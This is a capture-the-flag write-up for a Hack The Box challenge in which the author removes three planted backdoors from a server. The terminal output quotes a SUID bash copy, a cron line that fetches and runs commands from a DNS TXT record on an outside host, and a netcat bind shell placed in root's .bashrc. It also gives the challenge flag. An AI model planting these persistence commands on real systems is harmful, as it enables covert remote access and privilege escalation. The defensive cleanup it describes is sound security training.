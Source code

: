# Mission: Persistence

### Description:
* Hackers broke into a secret IMF server, and we believe they left behind three backdoors that will either provide them with access to the server, or allow them escalate their privileges on the server, or both. Your mission, should you choose to accept it, is to find these three back doors, and remove them from the system. The server is currently not connected to the internet, so it should be safe, but we need to get it back online ASAP. Can you SSH in and clean up? Your creds are `user / hackthebox`, and that user will have full `sudo` rights, so running `sudo su -` will provide a shell as root. Remove any malicious files and configurations, and then run `/root/solveme` as root to get the flag.

### Objective:
* Connect to the host and clean up the three backdoors left on the machine.

### Difficulty:
* Medium

### Flag:
* `HTB{m1ssi0n_suC3ssfUl!}`

### Challenge:

#### Connect

Connect with SSH, and escalate to root with `sudo su`:

```
david@meeks:~/Dropbox/CTFs/hackthebox/submissions/PersistenceIsFutile$ sshpass -p hackthebox ssh user@172.17.0.2
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 4.15.0-130-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

user@6b454f4753c3:~$ sudo su -
[sudo] password for user:
root@6b454f4753c3:~#
```

Running the solver now shows no tasks completed:

```
root@6b454f4753c3:~# ./solveme 
Issue 1 is not remediated
Issue 2 is not remediated
Issue 3 is not remediated
```

#### Persistence 1

The user home directory contains a SUID backdoor that is just a copy of `bash`.

```
root@6b454f4753c3:~# ls -la /home/user/
total 1184
drwxr-xr-x 1 user user    4096 Jan 21 12:33 .
drwxr-xr-x 1 root root    4096 Jan 20 20:35 ..
-rwsr-xr-x 1 root root 1183448 Jan 20 20:35 .backdoor
-rw-r--r-- 1 user user     220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user user    3771 Feb 25  2020 .bashrc
drwx------ 2 user user    4096 Jan 21 12:33 .cache
-rw-r--r-- 1 user user     807 Feb 25  2020 .profile
-rw-r--r-- 1 user user       0 Jan 21 12:33 .sudo_as_admin_successful
```

As user, running it with `-p` returns a root shell:

```
user@6b454f4753c3:~$ ./.backdoor -p
.backdoor-5.0# 
```

Removing this file solves part 1:

```
root@6b454f4753c3:~# rm /home/user/.backdoor 
root@6b454f4753c3:~# ./solveme 
Issue 1 is fully remediated
Issue 2 is not remediated
Issue 3 is not remediated
```

#### Persistence 2

There's a cron for user:

```
root@6b454f4753c3:~# find /var/spool/cron/ -type f -ls
  3566022      4 -rw-------   1 user     crontab       250 Jan 21 12:33 /var/spool/cron/crontabs/user
root@6b454f4753c3:~# cat /var/spool/cron/crontabs/user
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on Thu Jan 21 12:33:16 2021)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
* * * * * /bin/sh -c "sh -c $(dig imf0rce.htb TXT +short @ns.imf0rce.htb)"
```

This will run every minute, getting a TXT record from ns.inf0rce.htb, and then executing what's in the return. This is clearly suspicious. 

Either removing this file or commenting out the bad line will solve the challenge:

```
root@6b454f4753c3:~# vim /var/spool/cron/crontabs/user
root@6b454f4753c3:~# cat /var/spool/cron/crontabs/user
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on Thu Jan 21 12:33:16 2021)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
#* * * * * /bin/sh -c "sh -c $(dig imf0rce.htb TXT +short @ns.imf0rce.htb)"
root@6b454f4753c3:~# ./solveme 
Issue 1 is fully remediated
Issue 2 is fully remediated
Issue 3 is not remediated
root@6b454f4753c3:~# rm /var/spool/cron/crontabs/user
root@6b454f4753c3:~# ./solveme 
Issue 1 is fully remediated
Issue 2 is fully remediated
Issue 3 is not remediated
```

#### Persistence 3

If I've started a shell as root, there's a `nc` listening on port 4444 visible in the `netstat`:

```
root@6b454f4753c3:~# netstat -tnlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1/sshd: /usr/sbin/s 
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      98/nc               
tcp6       0      0 :::22                   :::*                    LISTEN      1/sshd: /usr/sbin/s 
```

The process list (easily seen as a tree) shows that the parent process is the current bash session:

```
root@6b454f4753c3:~# ps -eaf --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 12:33 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root           8       1  0 12:33 ?        00:00:00 sshd: user [priv]
user          19       8  0 12:33 ?        00:00:00  \_ sshd: user@pts/0
user          20      19  0 12:33 pts/0    00:00:00      \_ -bash
root          88      20  0 12:46 pts/0    00:00:00          \_ sudo su -
root          89      88  0 12:46 pts/0    00:00:00              \_ su -
root          90      89  0 12:46 pts/0    00:00:00                  \_ -bash
root          98      90  0 12:46 pts/0    00:00:00                      \_ nc -e /bin/bash -lnp 4444
root         100      90  0 12:46 pts/0    00:00:00                      \_ ps -eaf --forest
```

This is a good pointer to one of the script that runs when a shell is created, like `.bashrc`. The last line of root's `.bashrc` is this backdoor:

```
root@6b454f4753c3:~# tail -1 .bashrc 
nc -e /bin/bash -lnp 4444 &
```

Commenting out or removing that line will partially remediate this backdoor:

```
root@6b454f4753c3:~# ./solveme 
Issue 1 is fully remediated
Issue 2 is fully remediated
Issue 3 is partially remediated
```

Killing any running listeners will fully remediate it and provide the flag:

```
root@6b454f4753c3:~# kill 98
root@6b454f4753c3:~# 

[1]+  Exit 1                  nc -e /bin/bash -lnp 4444
root@6b454f4753c3:~# ./solveme 
Issue 1 is fully remediated
Issue 2 is fully remediated
Issue 3 is fully remediated

Congrats: HTB{m1ssi0n_suC3ssfUl!}
```

### Solver:

N/A
